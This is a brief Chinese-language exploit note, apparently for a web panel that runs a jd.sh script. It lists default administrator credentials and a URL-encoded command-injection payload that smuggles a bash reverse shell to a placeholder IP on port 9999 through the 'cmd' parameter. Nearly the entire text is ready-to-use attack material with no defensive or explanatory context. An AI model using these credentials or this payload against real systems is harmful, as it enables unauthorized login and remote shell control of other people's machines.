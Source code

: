 默认的账号密码：
useradmin/supermanito
反弹shell的payload：
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
